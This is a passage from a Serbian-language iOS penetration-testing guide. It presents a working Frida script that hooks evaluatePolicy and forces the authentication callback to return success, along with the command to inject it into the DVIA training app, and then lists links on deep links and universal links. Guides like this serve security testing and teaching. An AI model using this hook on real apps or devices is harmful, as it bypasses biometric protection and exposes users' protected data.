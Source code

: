 
Za postizanje **bypass**-a lokalne autentikacije, napisan je Frida skript. Ovaj skript cilja proveru **evaluatePolicy**, presrećući njen povratni poziv kako bi se osiguralo da vraća **success=1**. Menjanjem ponašanja povratnog poziva, provera autentikacije efikasno se zaobilazi.

Skript ispod je ubačen kako bi se izmenio rezultat metode **evaluatePolicy**. Menja rezultat povratnog poziva kako bi uvek pokazivao uspeh.

```swift
// from https://securitycafe.ro/2022/09/05/mobile-pentesting-101-bypassing-biometric-authentication/
if(ObjC.available) {
console.log("Injecting...");
var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];
Interceptor.attach(hook.implementation, {
onEnter: function(args) {
var block = new ObjC.Block(args[4]);
const callback = block.implementation;
block.implementation = function (error, value)  {

console.log("Changing the result value to true")
const result = callback(1, null);
return result;
};
},
});
} else {
console.log("Objective-C Runtime is not available!");
}
```

Da biste ubacili Frida skriptu i zaobišli biometrijsku autentikaciju, koristi se sledeća komanda:

```bash
frida -U -f com.highaltitudehacks.DVIAswiftv2 --no-pause -l fingerprint-bypass-ios.js
```

## Otkrivanje Osetljive Funkcionalnosti Putem IPC

### Prilagođeni URI rukovaoci / Duboki linkovi / Prilagođene šeme

{% content-ref url="ios-custom-uri-handlers-deeplinks-custom-schemes.md" %}
[ios-custom-uri-handlers-deeplinks-custom-schemes.md](ios-custom-uri-handlers-deeplinks-custom-schemes.md)
{% endcontent-ref %}

### Univerzalni Linkovi

{% content-ref url="ios-universal-links.md" %}
[ios-universal-links.md](ios-universal-links.md)
{% endcontent-ref %}

### UIActivity Deljenje
